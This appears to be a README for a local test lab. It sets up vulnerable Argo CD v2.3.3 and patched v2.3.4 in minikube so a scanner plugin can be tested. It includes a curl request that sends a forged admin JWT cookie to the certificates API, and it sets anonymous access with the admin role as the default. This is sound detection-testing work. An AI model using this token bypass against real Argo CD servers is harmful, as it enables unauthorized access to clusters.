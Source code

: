 # setup requirements
1. k8s with minikube: https://minikube.sigs.k8s.io/docs/start/ (we can use original k8s but this is a easy solution)
2. please don't forget to add `alias kubectl="minikube kubectl --"` to your shell environment.

# setup vulnerable instance (v2.3.3)

```bash
kubectl create namespace argocd
kubectl apply -n argocd -f https://raw.githubusercontent.com/argoproj/argo-cd/v2.3.3/manifests/install.yaml
kubectl patch -n argocd cm argocd-cm -p '{"data":{"users.anonymous.enabled":"true"}}'
# set admin role as default to be able to create an application
kubectl patch -n argocd cm argocd-rbac-cm -p '{"data":{"policy.default":"role:admin"}}'
```

check anonymous access is enabled:
`kubectl get -n argocd cm argocd-cm -o jsonpath='{.data.users\.anonymous\.enabled}'`

give access to the server from 127.0.0.1:8082 for testing the plugin:
`kubectl port-forward svc/argocd-server -n argocd 8082:443`

check it manually in another shell:
```bash
curl -s -k -i -X 'GET' -H 'Cookie: argocd.token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhZG1pbiJ9.TGGTTHuuGpEU8WgobXxkrBtW3NiR3dgw5LR-1DEW3BQ'  'https://127.0.0.1:8082/api/v1/certificates'
```
the response is like the following:
```
HTTP/1.1 200 OK
{"metadata":{},"items":[{"serverName":"bitbucket.org","certType":"ssh",....
```

# setup safe instance (v2.3.4)

```bash
kubectl create namespace argocdsafe
kubectl apply -n argocdsafe -f https://raw.githubusercontent.com/argoproj/argo-cd/v2.3.4/manifests/install.yaml
kubectl patch -n argocdsafe cm argocd-cm -p '{"data":{"users.anonymous.enabled":"true"}}'
```

check anonymous access is enabled:
`kubectl get -n argocdsafe cm argocd-cm -o jsonpath='{.data.users\.anonymous\.enabled}'`

give access to the server from 127.0.0.1:8081 for testing the plugin:
`kubectl port-forward svc/argocd-server -n argocdsafe 8081:443`

check it manually in another shell:
```bash
curl -s -k -i -X 'GET' -H 'Cookie: argocd.token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhZG1pbiJ9.TGGTTHuuGpEU8WgobXxkrBtW3NiR3dgw5LR-1DEW3BQ'  'https://127.0.0.1:8081/api/v1/certificates'
```

the response is like the following:
```
HTTP/1.1 200 OK
{"error":"permission denied: certificates, get, ","code":7,"message":"permission denied: certificates, get, "}
```
